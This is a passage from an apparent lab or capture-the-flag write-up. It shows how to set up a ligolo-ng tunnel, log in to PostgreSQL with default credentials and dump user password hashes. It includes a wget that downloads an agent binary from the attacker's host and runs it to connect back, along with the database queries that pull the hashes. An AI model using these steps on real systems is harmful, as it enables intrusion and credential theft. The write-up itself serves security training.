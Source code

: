 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917211215.png)

## Ligolo tunnel

In many of my writeups you can find how to use ligolo, so I will not waste time to take screen shoots and type only command here:

on kali and host agent 
```
sudo ip tuntap add user root mode tun ligolo 
sudo ip link set ligolo up
./proxy -laddr 0.0.0.0:11601 -selfcert
```

on machine
```
wget http://10.10.14.13/ligolo-ng-agent-linux_amd64
chmod +x ligolo-ng-agent-linux_amd64
./ligolo-ng-agent-linux_amd64 -connect 10.10.14.13:11601 -ignore-cert
```

back to kali in ligolo
```
session     #1
```
in other window
```
sudo ip route add 172.22.0.1/32 dev ligolo
```
and in ligolo
```
start
```

We are connected.
Let's enumerate postgres db (default port 5432) default username so I used default password postgres:postgres 

```
psql -h 172.22.0.1 -U postgres -p 5432

\l
\c mentorquotes_db
\dt
```

1 interesting db and user schema

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917212227.png)

So checking users we go password hash

```
select * from users;
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917212405.png)

